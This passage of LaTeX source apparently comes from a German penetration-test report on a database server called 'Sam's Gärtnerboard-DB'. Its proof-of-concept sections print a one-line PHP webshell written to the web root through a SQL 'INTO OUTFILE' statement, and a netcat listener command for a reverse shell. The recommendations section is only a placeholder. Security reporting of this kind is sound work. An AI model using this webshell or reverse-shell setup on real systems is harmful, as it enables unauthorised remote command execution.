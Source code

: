 \section{\makecvssbadge Sam's Gärtnerboard-DB: Upload einer Webshell}

\subsection*{Proof of concept}
Mit den zuvor erlangten Credentials für den Zugriff auf Server kann eine SSH-Verbindung erstellt werden. Der Datenbank-Server ist ein SQL-Server. Dadurch kann über den SQL Befehl aus \autoref{listing:sams-gaertnerboard-db:webshell-sql} eine Webshell auf dem Datenbankserver hinterlegt werden. Diese Webshell ist dadurch unter der URL \url{http://10.0.68.108/web-shell.php} erreichbar.

\begin{listing}[!ht]
\begin{verbatim}
Select '<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/web-shell.php';
\end{verbatim}
\caption{Webshell upload über SQL-Befehl}
\label{listing:sams-gaertnerboard-db:webshell-sql}
\end{listing}

\subsection*{Empfehlungen}
Empfehlungen


\section{\makecvssbadge Sam's Gärtnerboard DB: Reverse Shell und Remote Code Execution (RCE)}

\subsection*{Proof of concept}
Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. 


